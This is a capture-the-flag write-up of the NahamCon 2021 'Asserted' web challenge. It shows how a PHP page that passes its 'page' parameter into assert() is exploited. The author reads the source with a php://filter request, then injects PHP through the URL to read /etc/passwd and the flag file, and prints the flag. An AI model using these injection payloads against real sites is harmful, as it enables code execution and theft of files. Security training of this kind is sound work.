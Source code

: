 ```yaml
---
title: Asserted
description: Asserted Nahamcon 2021 challenge write up.
---
```


# Asserted <a href='/assets/resources/CTFs/Nahamcon_2021/Asserted-resources.zip' title="Download resources"> :material-folder-zip:{:alt="Download resources"} </a>

## Trying things

After a while a noticed that the url was using an argument to change between pages:

```
http://challenge.nahamcon.com:32302/index.php?page=about
```

If i try something like:

```
http://challenge.nahamcon.com:32302/index.php?page=../
```

The page returns: `HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE`

## Digging

I wanted to check the php code of this `index.php` so i researched a bit and i used this:

```
http://challenge.nahamcon.com:32302/index.php?page=php://filter/convert.base64-encode/resource=index
```

To get a base64 encoded `index.php` file. After decoding we can take a look to this friend:

```
<?php

if (isset($_GET['page'])) {
  $page = $_GET['page'];
  $file = $page . ".php";

  // Saving ourselves from any kind of hackings and all
  assert("strpos('$file', '..') === false") or die("HACKING DETECTED! PLEASE STOP THE HACKING PRETTY PLEASE");
  
} else {
  $file = "home.php";
}

include($file);

?>
```

Looks like that `assert` function can be abused. Lets try this simple payload:

```
http://challenge.nahamcon.com:30611/index.php?page='. die("HALLO") .'
```

The page printed `HALLO` to the response body so lets try LFI:

```
http://challenge.nahamcon.com:30611/index.php?page='. die(file_get_contents("/etc/passwd")) .'
```
And the server printed the hole file to us, cool. Lets find and get the flag then:

```
http://challenge.nahamcon.com:30611/index.php?page='. die(file_get_contents("/flag.txt")) .'
```

Flag: `flag{85a25711fa6e111ed54b86468a45b90c}`
